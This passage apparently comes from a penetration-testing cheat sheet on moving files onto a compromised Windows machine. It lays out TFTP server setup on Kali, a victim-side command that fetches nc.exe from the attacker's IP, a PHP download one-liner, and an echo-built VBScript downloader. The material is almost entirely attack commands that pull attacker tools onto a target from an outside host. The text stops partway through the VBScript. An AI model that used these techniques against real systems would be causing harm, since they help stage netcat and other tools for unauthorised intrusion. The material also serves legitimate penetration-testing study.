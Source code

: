 By default in XP and 2003 (in others it needs to be explicitly added during installation)

In Kali, **start TFTP server**:

```bash
#I didn't get this options working and I prefer the python option
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /path/tp/nc.exe /tftp
```

**TFTP server in python:**

```bash
pip install ptftpd
ptftpd -p 69 tap0 . # ptftp -p <PORT> <IFACE> <FOLDER>
```

In **victim**, connect to the Kali server:

```bash
tftp -i <KALI-IP> get nc.exe
```

## PHP

Download a file with a PHP oneliner:

```bash
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## VBScript

```bash
Attacker> python -m SimpleHTTPServer 80
```

**Victim**

```bash
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http =CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
